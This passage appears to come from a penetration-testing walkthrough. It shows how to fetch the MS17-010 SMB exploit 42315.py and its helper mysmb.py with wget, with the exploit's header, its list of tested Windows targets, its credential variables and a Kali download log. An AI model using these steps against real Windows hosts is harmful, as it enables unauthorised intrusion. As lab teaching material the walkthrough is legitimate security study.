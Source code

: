 We can download this exploit by executing `wget https://www.exploit-db.com/raw/42315 -O 42315.py`, as shown above.

<div id="USERNAME"></div>
{% highlight python linenos %}
#!/usr/bin/python
from impacket import smb, smbconnection
from mysmb import MYSMB
from struct import pack, unpack, unpack_from
import sys
import socket
import time

'''
MS17-010 exploit for Windows 2000 and later by sleepya

EDB Note: mysmb.py can be found here ~ https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin>

Note:
- The exploit should never crash a target (chance should be nearly 0%)
- The exploit use the bug same as eternalromance and eternalsynergy, so named pipe is needed

Tested on:
- Windows 2016 x64
- Windows 10 Pro Build 10240 x64
- Windows 2012 R2 x64
- Windows 8.1 x64
- Windows 2008 R2 SP1 x64
- Windows 7 SP1 x64
- Windows 2008 SP1 x64
- Windows 2003 R2 SP2 x64
- Windows XP SP2 x64
- Windows 8.1 x86
- Windows 7 SP1 x86
- Windows 2008 SP1 x86
- Windows 2003 SP2 x86
- Windows XP SP3 x86
- Windows 2000 SP4 x86
'''

USERNAME = ''
PASSWORD = ''
{% endhighlight %}

At the top of the exploit script, we can find some comments which include a link to a script named "mysmb.py". This script is needed for the exploit to work and can also be downloaded with `wget` as shown below. Note that an empty username and password is set using the `USERNAME` and `PASSWORD` variables. Sometimes, these aren't required since the target might be configured to allow [null sessions](https://www.blumira.com/glossary/null-session/).

{% highlight none linenos %}
kali@kali:/tmp/x$ @@wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/42315.py -O mysmb.py@@
[...]
Saving to: ‘mysmb.py’

mysmb.py                     100%[============================================>]  16.28K  --.-KB/s    in 0s      

2021-12-11 10:41:57 (58.1 MB/s) - @@@‘mysmb.py’ saved@@@ [16669/16669]

kali@kali:/tmp/x$
{% endhighlight %}
